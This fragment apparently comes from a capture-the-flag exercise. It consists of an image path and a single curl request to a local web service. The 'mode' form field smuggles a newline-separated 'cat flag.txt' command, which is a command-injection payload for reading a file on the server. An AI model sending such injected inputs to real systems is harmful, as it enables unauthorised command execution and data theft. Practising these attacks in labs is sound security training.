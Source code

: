 curl 'http://localhost:6789/' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-raw 'mode=-d%0acat flag.txt #&message=foo' \
  --compressed
